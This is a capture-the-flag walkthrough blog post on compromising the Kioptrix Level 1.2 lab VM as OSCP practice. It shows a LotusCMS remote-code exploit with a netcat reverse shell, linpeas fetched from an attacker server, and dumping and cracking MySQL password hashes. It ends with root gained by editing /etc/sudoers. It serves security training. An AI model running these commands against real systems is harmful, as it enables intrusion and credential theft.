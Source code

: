 ```yaml
---
layout: post
title: " Kioptrix - Level 1.2"
date: 2020-08-09
ctf: true
excerpt: "Walkthrough for Kioptrix Level 1.2 on Vulnhub"
tags: [OSCP, LotusCMS, mysql, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) Level 1.2 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.3 netdiscover](/assets/img/KioptrixLevel31.png)

Next, I ran **threader3000** and let it run its recommended nmap scan.

![Kioptrix Level 1.2 threader3000 nmap](/assets/img/KioptrixLevel32.png)

It appears that only SSH and HTTP are open.  Let's take a look at the website. It appears that there is a **Login** link on the main page.

![Kioptrix 1.2 Website](/assets/img/KioptrixLevel33.png)

Let's take a look at the login page. This gives us our first hint. This is running **LotusCMS**.

![Kioptrix Level 1.2 LotusCMS login](/assets/img/KioptrixLevel34.png)

I next ran a search on Google and came across the following [exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit).  This exploit appears to open a reverse shell as the user that is running the CMS. From my attacker PC, I ran **git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit.git**. This will make a copy of the exploit in a directory named **LotusCMS-Exploit**. Run **cd LotusCMS-Exploit** followed by **ls** to list the directory contents.

![Kioptrix Level 1.2 git clone LotusCMS Exploit](/assets/img/KioptrixLevel35.png)

Open up a second terminal windows, and run **nc -nvlp [port number]** where the port number is one of your choosing. This will open a listener to catch the reverse shell.

![Kioptrix Level 1.2 nc reverse shell](/assets/img/KioptrixLevel36.png)

Next, go back to your Lotus CMS exploit terminal window and run **./lotusRCE.sh**. This will explain how to use this exploit.

![Kioptrix Level 1.2 LotusRCE.sh usage](/assets/img/KioptrixLevel37.png)

Now that we know what we should be entering, let's run **./lotusRCE.sh [machine ip] /** . You should be notified that the site is vulnerable to injection and be asked for an IP to use which is **your attacker ip** and a port **the one you specified in your netcat listener**. Next, choose option **1** for the way to connect to your netcat listener.

![Kioptrix Level 1.2 LotusCMS Exploit options](/assets/img/KioptrixLevel38.png)

Once entered, press enter and go to your other terminal window on your attacker pc. You should now have an initial foothold on this box. Let's run **python -c 'import pty; pty.spawn("/bin/sh")'** to create a better shell.

![Kioptrix Level 1.2 initial foothold](/assets/img/KioptrixLevel39.png)

Running **whoami** reveals that you are running as **www-data**. Running **cat /etc/passwd** reveals 2 other nonroot users, **loneferret** and **dreg**.

![Kioptrix Level 1.2 whoami cat /etc/passwd](/assets/img/KioptrixLevel310.png)

I attempted to run **sudo -l** but was prompted for a password. Let's navigate to the tmp directory with  **cd /tmp**. This is typically a world writeable directory that we are going to save linpeas to in order to do further enumeration. On your attacker pc, start an HTTP server with **python3 -m http.server** in a directory you have linpeas saved in.

![Kioptrix Level 1.1 python3 http server](/assets/img/KioptrixLevel311.png)

On the victim terminal window with the initial foothold, let's run **wget http://[attacker ip]:8000/linpeas.sh** followed by **chmod +x linpeas.sh** to make it executable.

![Kioptrix Level 1.2 wget chmod](/assets/img/KioptrixLevel312.png)

Now, run this script with **./linpeas.sh**. This produces a massive amount of output as it appears that it has an old version of metasploit installed on it along with a lot of mysql activity. However, near the very end, we will uncover a password for mysql.

![Kioptrix Level 1.2 mysql password](/assets/img/KioptrixLevel313.png)

Let's try to connect to mysql as root with this wonderfully mature password. To do so, run **mysql -u root -p** and enter **fuckeyou** when prompted for the password.

![Kioptrix Level 1.2 mysql root access](/assets/img/KioptrixLevel314.png)

Success! Let's run **show databases;** to list the databases and select gallery with **use gallery;** Next, let's run **show tables;** and you will notice a table named **dev_accounts**. Let's run **select * from dev_accounts;** and you will see two sets of credentials with hashed passwords for dreg and loneferret.

![Kioptrix Level 1.1 Password Hashes](/assets/img/KioptrixLevel315.png)

I went to [Crackstation](https://crackstation.net) and entered these two hashes, which cracked these md5 hashes. 

![Kioptrix Level 1.1 crack md5 hash Crackstation](/assets/img/KioptrixLevel316.png)

We now have passwords of **Mast3r** for the user **dreg** and **starwars** for the user **loneferret**. Let's run **su loneferret** and enter the password cracked above and see what happens.

![Kioptrix Level 1.2 su loneferret](/assets/img/KioptrixLevel317.png)

Success! It appears that his password was reused. Let's open another terminal windows and run **ssh loneferret@[machine ip]** and enter his password of **starwars** to connect.

![Kioptrix Level 1.2 ssh](/assets/img/KioptrixLevel318.png)

We now have a more proper shell. Let's run **ls -al** to list the contents of loneferret's home directory.

![Kioptrix Level 1.2 ls home directory](/assets/img/KioptrixLevel319.png)

There's a README file in this folder. Let's run **cat CompanyPolicy.README** to take a look at it.

![Kioptrix Level 1.2 cat README](/assets/img/KioptrixLevel320.png)

Let's run **sudo -l** and see if loneferret can run ht with escalated privileges.

![](/assets/img/KioptrixLevel321.png)

It appears that it can be ran without a password as root! It also appears that **su** could be ran if that line of the file in **/etc/sudoers** could somehow be modified... Let's run **sudo ht** to open up this program.

![Kioptrix Level 1.2 sudo ht error](/assets/img/KioptrixLevel322.png)

Of course it couldn't be that simple. A quick Google search revealed that this error is due to an improper TERM variable value. Let's run **export TERM=xterm** to temporarily set it to xterm instead of xterm-256color.

![Kioptrix Level 1.2 TERM environment variable](/assets/img/KioptrixLevel323.png)

Now, let's try running **sudo ht** again. This will open **ht** which is an editor program of some sort. At the bottom you will notice numbers with commands by them. These are accessed by using the appropriate function key on your keyboard. Let's press **F3** to run the **open** command. 

![Kioptrix Level 1.2 ht editor](/assets/img/KioptrixLevel324.png)

In the box that pops up, enter in **/etc/sudoers** and press enter.

![Kioptrix Level 1.2 ht editor /etc/sudoers](/assets/img/KioptrixLevel325.png)

Success! We were able to open this file for editing due to us running this command as sudo. Let's remove the ! from in front of **/usr/bin/su** and press **F2** to save.

![Kioptrix Level 1.2 ht modify /etc/sudoers](/assets/img/KioptrixLevel326.png)

Next, press **F10** to exit ht, and run **sudo su**. Unfortunately, this does not work.

![Kioptrix Level 1.2 sudo su failure](/assets/img/KioptrixLevel327.png)

This is because **su** is in the **/bin** folder and not the **/usr/bin** folder. I then reran **sudo ht** and pulled up the **/etc/sudoers** file again and modified **/usr/bin/su** to **/bin/su**.

![Kioptrix Level 1.2 ht round 2](/assets/img/KioptrixLevel328.png)

Now once saved (with **F2**), press **F10** to exit back to terminal and run **sudo su** again.	

![Kioptrix Level 1.2 root shell](/assets/img/KioptrixLevel329.png)

Next I ran **cd /root** followed by **ls -al** to list the contents. there is a **Congrats.txt** file here. Let's read it with **cat Congrats.txt**.

![Kioptrix Level 1.2 root flag Congrats.txt](/assets/img/KioptrixLevel330.png)

With that, this box is complete!
